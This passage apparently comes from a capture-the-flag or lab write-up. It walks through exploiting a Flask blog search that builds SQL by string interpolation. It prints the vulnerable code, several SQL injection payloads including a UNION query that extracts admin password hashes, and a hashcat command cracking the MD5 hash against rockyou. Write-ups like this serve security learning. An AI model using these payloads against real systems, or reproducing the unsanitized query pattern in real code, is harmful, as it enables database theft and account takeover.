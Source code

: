 ```python
raw_query = text(
                f"SELECT * FROM blog_posts WHERE title LIKE '%{query}%'")
            current_app.logger.info(f"Executing Raw Query: {raw_query}")
            posts = db.session.execute(raw_query).fetchall()
            current_app.logger.info(f"Query Results: {posts}")
```

- Since user input (`query`) is directly concatenated into the SQL query without proper sanitization, we can exploit this to extract data from the database.

**Bypassing Filters**

- I first attempted a basic SQL injection payload `' OR 1=1; --` and however, this didn't work. After experimenting further, I found that the following payload successfully bypassed the filter and listed all blog posts `' OR 1-1 #`

- Next, I attempted to extract data from the `users` table using a `UNION` injection payload:

```sql
' UNION SELECT id, username, password, 'content', 'author' FROM users WHERE role='admin' #
```

- and we go the admin password in md5 hash.

![Screenshot 2025-02-28 205518.png](Files/Screenshot_2025-02-28_205518.png)

- I used **Hashcat** to crack the MD5 hash of the admin password.

```bash
hashcat -m 0 c1b8b03c5a1b6d4dcec9a852f85cac59 /usr/share/wordlists/rockyou.txt
```
